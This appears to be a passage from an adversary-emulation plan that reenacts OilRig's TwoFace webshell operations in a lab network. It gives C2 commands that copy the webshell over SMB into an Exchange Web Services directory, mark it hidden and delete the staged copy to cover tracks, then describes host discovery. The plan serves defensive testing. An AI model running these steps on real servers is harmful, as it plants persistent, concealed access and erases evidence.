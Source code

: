 OilRig covers their tracks by deleting the webshell from `gosta`'s user 
directory on `THEBLOCK`.

---

### ☣️ Procedures

The webshell is first placed on THEBLOCK (10.1.0.5) to prepare for copying via 
SMB to WATERFALLS.

```bash
./evalsC2client.py --set-task goTb '102 C:\Users\Public\contact.aspx|contact.aspx'
```

Once in place, OilRig has copied the webshell directly into the Exchange Web 
Services directory.

```bash
./evalsC2client.py --set-task goTb '101 copy C:\Users\Public\contact.aspx "\\10.1.0.6\C$\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\"'
```

Set the file hidden attribute on WATERFALLS and delete the webshell from 
THEBLOCK using SideTwist

```bash
./evalsC2client.py --set-task goTb '101 attrib +h "\\10.1.0.6\C$\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\contact.aspx" & del C:\Users\Public\contact.aspx'
```

<br>

### :moyai: Source Code
*  TwoFace Webshell: [TwoFace](../Resources/TwoFace/)

<br>

### :microscope: Cited Intelligence 
*  EWS lateral movement: https://unit42.paloaltonetworks.com/unit42-twoface-webshell-persistent-access-point-lateral-movement/

<br>

## Step 5 - EWS Discovery

### :microphone: Voice Track

Step 5 emulates OilRig using the TWOFACE webshell to perform enumeration on the 
EWS `WATERFALLS (10.1.0.6)` to discover the SQL server `ENDOFROAD (10.1.0.7)`.

OilRig first uses the webshell to perform some initial discovery once on the 
host by enumerating the current user, system network configuration and system 
network connections. 

Output of the system network connections discovery indicates an open connection 
to `10.1.0.7` via a port commonly associated with SQL.

---